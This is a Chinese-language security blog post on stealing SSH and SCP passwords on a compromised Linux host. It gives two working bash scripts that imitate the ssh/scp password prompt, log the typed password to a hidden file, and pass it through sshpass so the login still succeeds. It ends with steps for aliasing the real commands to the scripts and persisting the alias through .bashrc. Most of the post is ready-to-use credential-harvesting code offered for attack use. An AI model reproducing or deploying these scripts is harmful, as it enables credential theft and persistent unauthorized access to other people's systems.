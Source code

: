 ```yaml
---

layout: default

---
```




# Linux抓取SSH/SCP密码

## 0x01总体思路

​	大体思路是基于Linux的alias别名特性，通过创建ssh/scp的别名修改系统的ssh/scp命令指向自定义的恶意脚本，当用户在执行ssh/scp命令时实际执行的是指定的恶意脚本，脚本将中提示用户输入密码并保存本地，然后再调用系统中正常的ssh/scp命令完成用户指令。（抓密码思路源于klion知识星的分享）

## 0x02 SSH密码抓取

​	先给出脚本：

```shell
#!/bin/bash 
if [ $# != "1" ]		#判断是否只有一个参数 
then
	/usr/bin/ssh 
else
	echo -e "${1}'s password: \c" 
	read -s pass echo $1":"$pass >> /tmp/.log 
	echo "" 
	sshpass -p "$pass" /usr/bin/ssh ${1} 
fi
```

​	脚本中首先判断用户输入的参数是否为1个，其实此处还可以加多一层判断，看用户输入的是否是 `user@ip` 的格式，防止用户输入错误地参数脚本同样提示输入密码。根据用户的参数伪造ssh的回显，提示用户输入密码，并记录保存到本地/tmp/.log文件中。最后因为正常调用ssh命令时需要交互式输入密码，所以利用sshpass工具来将密码发送给ssh命令，从而正常执行ssh功能



## 0x03 SCP密码抓取

​	脚本：

```shell
#! /bin/bash
str="@"
for var in $*
do
        if [[ $var == *$str* ]];then
                arr=(${var//:/ })
                echo -e "${arr[0]}'s password: \c"
                read -s pass
                echo $pass >> /root/.log
                echo ""
        fi
done
sshpass -p "$pass" /usr/bin/scp ${*}
```

​	抓取scp密码原理与ssh的是一样的，只是脚本相对来说复杂一点点，因为scp的参数多且位置不固定，所以需要判断`user@ip`参数出现在第几个参数，然后根据该参数的内容来伪造正常的scp输入密码提示。

## 0x04 具体操作

1. 首先需要在目标机器上安装 `sshpass`工具，可以使用 `yum/apt-get`等包管理工具安装也可以下载源码编译安装。
2. 修改目标机器 alias , 比如 alias ssh=/root/.scp。可以在.bashrc文件中添加实现持久化抓取。
3. 将脚本放到指定的位置。

​	

